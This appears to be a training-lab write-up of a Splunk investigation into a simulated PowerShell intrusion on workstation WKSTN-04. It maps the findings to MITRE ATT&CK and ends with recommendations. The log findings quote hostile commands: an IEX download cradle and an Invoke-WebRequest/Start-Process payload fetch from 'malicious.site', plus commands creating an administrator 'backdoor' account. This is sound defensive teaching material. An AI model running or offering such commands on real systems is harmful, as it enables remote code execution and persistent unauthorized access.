






## Scenario
A Windows workstation at SecureCore Ltd is flagged by the SIEM on the morning 
of April 8th 2026. The alert indicates PowerShell was executed with unusual 
parameters from workstation WKSTN-04. A SOC analyst is tasked with investigating 
whether this is legitimate administrator activity or a malicious attack using 
PowerShell to compromise the system.

## Objective
Investigate suspicious PowerShell execution logs using Splunk, identify malicious 
commands, determine the full scope of the attack, and document all findings 
professionally.

## Tools Used
- Splunk Enterprise
- SPL (Search Processing Language)

## Dataset
- File: powershell-logs.csv
- Index: main
- Total Events: 16
- Log Fields: time, host, user, src_ip, process, parent_process, command_line, 
  encoded, EventCode, status, description

---

## Background — What is Malicious PowerShell?
PowerShell is a legitimate Windows administration tool. However attackers 
frequently abuse it because it is pre-installed on every Windows machine, 
making it harder to detect. Common malicious techniques include:

- **Encoded commands** — scrambling commands in Base64 to hide their true purpose
- **Process chaining** — launching PowerShell from cmd.exe to obscure the origin
- **Living off the land** — using built-in tools instead of external malware

---

## Investigation Steps

### Step 1 — Load and Review Raw Logs
The dataset was loaded into Splunk and raw logs were reviewed to understand 
the full scope of PowerShell activity across the environment.

**Query used:**
index=main source="powershell-logs.csv"

**Finding:**
16 total PowerShell events were present across multiple workstations and users. 
Initial review revealed a concentration of suspicious activity on WKSTN-04 
associated with the admin account.

---

### Step 2 — Full Dataset Overview
All events were organised into a clean table to get a complete picture of 
PowerShell activity across the environment.

**Query used:**
index=main source="powershell-logs.csv"
| table time, user, extracted_host, parent_process, command_line, encoded,
status, description
| sort time

**Finding:**
The majority of PowerShell activity across WKSTN-01, WKSTN-02 and WKSTN-03 
appeared normal — commands launched from explorer.exe with readable command 
lines. However WKSTN-04 showed a distinctly different pattern — PowerShell 
launched from cmd.exe with encoded commands and highly suspicious activity.

---

### Step 3 — Isolate WKSTN-04 Activity
All activity on the compromised workstation was isolated to reconstruct 
the complete attack sequence.

**Query used:**
index=main source="powershell-logs.csv" extracted_host=WKSTN-04
| table time, user, parent_process, command_line, description
| sort time

**Finding:**
10 PowerShell events were recorded on WKSTN-04 between 09:20 and 09:45. 
All events were executed by the admin account with cmd.exe as the parent 
process — a strong indicator of malicious activity. The sequence revealed 
a structured attack following a clear lifecycle from initial access through 
to post-exploitation reconnaissance.

---

### Step 4 — Detect Encoded PowerShell Commands
Encoded PowerShell commands were isolated to identify attempts to hide 
malicious activity from security tools.

**Query used:**
index=main source="powershell-logs.csv" encoded=true
| table time, user, extracted_host, parent_process, command_line, description
| sort time

**Finding:**
3 encoded PowerShell commands were executed on WKSTN-04 between 09:20 and 
09:22. All three were launched from cmd.exe by the admin account. The encoded 
strings translate to a command that downloads and executes malicious code 
from a remote server using:
IEX (New-Object Net.WebClient).DownloadString('http://malicious.site/payload')

Encoding was used deliberately to bypass security monitoring tools.

---

### Step 5 — Backdoor Account Creation
Commands containing backdoor-related activity were isolated to identify 
persistence mechanisms established by the attacker.

**Query used:**
index=main source="powershell-logs.csv" command_line="backdoor"
| table time, user, extracted_host, command_line, description
| sort time

**Finding:**
Two critical persistence commands were identified:

| Time | Command | Purpose |
|------|---------|---------|
| 09:23 | New-LocalUser -Name backdoor -Password P@ssw0rd123 | Created hidden local account |
| 09:25 | Add-LocalGroupMember -Group Administrators -Member backdoor | Granted full admin privileges |

The attacker created a hidden account named "backdoor" and immediately 
elevated it to administrator level. This ensures continued access to the 
system even if the original compromise is discovered and remediated.

---

### Step 6 — Malware Download and Execution
Commands involving the malicious payload were isolated to confirm malware 
deployment on the compromised system.

**Query used:**
index=main source="powershell-logs.csv" command_line="payload.exe"
| table time, user, extracted_host, command_line, description
| sort time

**Finding:**

| Time | Command | Action |
|------|---------|--------|
| 09:27 | Invoke-WebRequest -Uri http://malicious.site/payload.exe -OutFile C:\Windows\Temp\payload.exe | Malware downloaded |
| 09:30 | Start-Process C:\Windows\Temp\payload.exe | Malware executed |

The attacker downloaded a malicious executable from an external server and 
saved it to C:\Windows\Temp\ — a common attacker technique as this folder 
is writable by all users and often overlooked by security tools. The malware 
was then executed confirming full compromise of WKSTN-04.

---

## Findings Summary

| Finding | Detail |
|---------|--------|
| Compromised machine | WKSTN-04 |
| Attacker user context | admin |
| Attack start time | 2026-04-08 09:20:00 |
| Entry technique | Encoded PowerShell via cmd.exe |
| Encoded commands executed | 3 |
| Backdoor account created | "backdoor" |
| Backdoor privileges | Administrator |
| Malware source | http://malicious.site/payload.exe |
| Malware saved to | C:\Windows\Temp\payload.exe |
| Malware executed | Confirmed at 09:30 |
| Post-exploitation activity | User enumeration, network reconnaissance, process enumeration |

---

## MITRE ATT&CK Mapping

| Technique | ID | What was observed |
|-----------|-----|------------------|
| PowerShell | T1059.001 | PowerShell used as primary attack tool |
| Obfuscated Files | T1027 | Base64 encoded commands to hide malicious activity |
| Create Account | T1136.001 | Local backdoor account created |
| Ingress Tool Transfer | T1105 | Malware downloaded using Invoke-WebRequest |
| System Information Discovery | T1082 | Network and process enumeration performed |

---

## Conclusion
This investigation confirmed a sophisticated PowerShell-based attack against 
WKSTN-04 at SecureCore Ltd. The attacker used encoded commands to bypass 
security monitoring, established persistence through a hidden administrator 
account, deployed malware from an external server, and conducted post-exploitation 
reconnaissance to prepare for further network compromise.

The use of cmd.exe as a parent process combined with Base64 encoded commands 
and systematic post-exploitation activity indicates a skilled and deliberate 
attacker rather than opportunistic activity.

## Recommended Actions
- Immediately isolate WKSTN-04 from the network
- Disable and delete the backdoor local account
- Block http://malicious.site at the firewall level
- Search all other machines for payload.exe in C:\Windows\Temp\
- Reset admin account credentials across all systems
- Implement PowerShell script block logging across the environment
- Create SIEM alert for encoded PowerShell execution
- Create SIEM alert for PowerShell launched from cmd.exe
- Review all machines for similar encoded PowerShell patterns
